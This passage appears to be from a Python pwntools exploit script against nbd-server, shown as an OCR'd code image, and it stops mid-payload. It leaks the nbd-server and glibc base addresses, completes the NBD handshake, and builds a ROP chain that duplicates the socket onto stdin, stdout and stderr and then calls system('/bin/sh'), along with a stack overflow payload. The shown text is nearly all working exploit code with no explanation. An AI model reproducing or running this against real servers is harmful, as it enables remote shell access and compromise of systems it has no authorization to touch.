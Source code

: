```python
      p32(NBD_OPT_GO, endian="big") + p32(0, endian="big")

  io.send(header)
  io.send(p32(0, endian="big"))
  io.send(p32(0, endian="big"))

  #parse_response(io)

  libc = u64(io.recv(8))


  #libc = u64(io.recv(8))

  io.close()
  return libc

#get_canary()
#get_base()

#base = [0x74, 0xf2, 0x67, 0x9e, 0xfe, 0x55, 0, 0]

base = u64(b"".join([p8(i) for i in base])) - 0xf274
print(f"nbd-server mapped at {base:#x}")

libc = get_libc() - 0x110cc0
print(f"glibc mapped at {libc:#x}")

io = remote(HOST, PORT)

buf = io.recv(8)
assert(buf == INIT_PASSWD)

log.info("received INIT_PASSWD")

magic = u64(io.recv(8), endian="big")
assert(magic == opts_magic)

log.success(f"received opts magic {magic:#x}")

gflags = u16(io.recv(2), endian="big")
log.info(f"global flags are {gflags:#x}")

cflags = NBD_FLAG_FIXED_NEWSTYLE
if (gflags & NBD_FLAG_NO_ZEROES):
  cflags |= NBD_FLAG_NO_ZEROES

io.send(p32(cflags, endian="big"))

dup2=libc+0x111a30
poprdi=base+0x4a58
poprsi=base+0x4798
binsh=libc+0x1b75aa
system=libc+0x55410

rop_chain  = p64(poprdi) + p64(4) + p64(poprsi) + p64(0) + p64(dup2)
rop_chain += p64(poprdi) + p64(4) + p64(poprsi) + p64(1) + p64(dup2)
rop_chain += p64(poprdi) + p64(4) + p64(poprsi) + p64(2) + p64(dup2)
rop_chain += p64(poprdi) + p64(binsh) + p64(system)

length = 1032+4+64+len(rop_chain)
payload  = b"A"*1028

# canary
```
